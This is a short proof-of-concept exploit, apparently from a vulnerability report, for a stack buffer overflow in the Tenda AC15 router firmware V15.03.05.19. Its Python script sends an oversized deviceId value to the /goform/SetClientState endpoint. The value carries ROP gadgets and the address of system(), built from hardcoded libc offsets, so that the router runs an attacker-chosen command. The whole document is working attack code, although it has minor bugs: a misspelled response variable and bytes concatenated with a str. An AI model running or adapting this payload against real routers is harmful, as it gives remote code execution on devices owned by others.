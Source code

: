 Affected products: AC15V15.03.05.19

POC:

import requests
from pwn import *
cmd=b"echo hello! "
libc_base=0xf659c000


system_offset = 0x5a270
gadget1_offset = 0x18298
gadget2_offset = 0x40cb8
system_addr = libc_base + system_offset
gadget1 = libc_base + gadget1_offset
gadget2 = libc_base + gadget2_offset

#cmd=bin_sh+libc_base
payload="A"*590 +p32(gadget1)+p32(system_addr) +p32(gadget2)+cmd
url="http://192.168.0.119/goform/SetClientState"
cookie={"Cookie":"password=12345"}
data={"limitEn":"1","deviceId":payload,"limitSpeedUp":"a","limitSpeed":"a"}

reponse=requests.post(url,cookies=cookie,data=data)

print(response.text)

